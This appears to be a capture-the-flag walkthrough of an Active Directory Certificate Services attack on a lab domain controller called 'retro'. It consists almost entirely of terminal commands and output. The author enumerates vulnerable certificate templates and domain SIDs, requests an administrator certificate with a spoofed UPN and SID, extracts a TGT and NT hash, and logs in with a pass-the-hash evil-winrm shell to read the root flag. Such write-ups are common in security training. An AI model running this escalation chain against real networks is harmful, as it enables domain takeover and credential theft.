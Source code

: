 ADCS1 

#Enumerating Certificate Templates
Identifying vulneravle certificate templates
certipy-ad find -u 'trainee@retro.vl0' -p password -dc-ip 10.129.234.44 -vulnerable -enabled 

#request a certificate as Administrator
certipy-ad req -u 'trainee@retro.vl0' -p 'trainee' -dc-ip 10.129.234.44 -ca retro-DC-CA -target 'dc.retro.vl' -template 'RetroClients' -upn 'administrator@retro.vl0'
                                                                                                         
┌──(alvan㉿vbox)-[~/Downloads/certs]
└─$ impacket-lookupsid 'retro.vl/BANKING$:password@10.129.234.44'          
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 10.129.234.44
[*] StringBinding ncacn_np:10.129.234.44[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2983547755-698260136-4283918172
498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: RETRO\Administrator (SidTypeUser)
501: RETRO\Guest (SidTypeUser)
502: RETRO\krbtgt (SidTypeUser)
512: RETRO\Domain Admins (SidTypeGroup)
513: RETRO\Domain Users (SidTypeGroup)
514: RETRO\Domain Guests (SidTypeGroup)
515: RETRO\Domain Computers (SidTypeGroup)
516: RETRO\Domain Controllers (SidTypeGroup)
517: RETRO\Cert Publishers (SidTypeAlias)
518: RETRO\Schema Admins (SidTypeGroup)
519: RETRO\Enterprise Admins (SidTypeGroup)
520: RETRO\Group Policy Creator Owners (SidTypeGroup)
521: RETRO\Read-only Domain Controllers (SidTypeGroup)
522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
525: RETRO\Protected Users (SidTypeGroup)
526: RETRO\Key Admins (SidTypeGroup)
527: RETRO\Enterprise Key Admins (SidTypeGroup)
553: RETRO\RAS and IAS Servers (SidTypeAlias)
571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
1000: RETRO\DC$ (SidTypeUser)
1101: RETRO\DnsAdmins (SidTypeAlias)
1102: RETRO\DnsUpdateProxy (SidTypeGroup)
1104: RETRO\trainee (SidTypeUser)
1106: RETRO\BANKING$ (SidTypeUser)
1107: RETRO\jburley (SidTypeUser)
1108: RETRO\HelpDesk (SidTypeGroup)
1109: RETRO\tblack (SidTypeUser)


                                                                                                         
┌──(alvan㉿vbox)-[~/Downloads/certs]
└─$ ls                            
administrator_administrator.pfx
                                                                                                         
┌──(alvan㉿vbox)-[~/Downloads/certs]
└─$ mv administrator_administrator.pfx admin.pfx

                                                                                                         
┌──(alvan㉿vbox)-[~/Downloads/certs]
└─$ certipy-ad req   -u 'BANKING$@retro.vl'  -p 'password'  -dc-ip 10.129.234.44   -target 'DC.retro.vl'  -template 'RetroClients' -ca 'retro-DC-CA'   -upn 'administrator@retro.vl'   -dns 'administrator.retro.vl'   -key-size 4096 -sid S-1-5-21-2983547755-698260136-4283918172-500           

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 23
[*] Got certificate with multiple identifications
    UPN: 'administrator@retro.vl'
    DNS Host Name: 'administrator.retro.vl'
[*] Certificate object SID is 'S-1-5-21-2983547755-698260136-4283918172-500'
[*] Saved certificate and private key to 'administrator_administrator.pfx'
                                                                                                         
┌──(alvan㉿vbox)-[~/Downloads/certs]
└─$ ls
admin.pfx  administrator_administrator.pfx
                                                                                                         
┌──(alvan㉿vbox)-[~/Downloads/certs]
└─$ certipy-ad auth -pfx administrator_administrator.pfx -dc-ip 10.129.234.44
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@retro.vl'
    [1] DNS Host Name: 'administrator.retro.vl'
> 0
[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389
                                                                                                         
┌──(alvan㉿vbox)-[~/Downloads/certs]
└─$ evil-winrm -i DC.retro.vl -u administrator -H 252fac7066d93dd009d4fd2cd0368389

                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                           
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                             
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/8/2025   8:11 PM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
40fce9c3f0902......
![Uploading image.png…]()
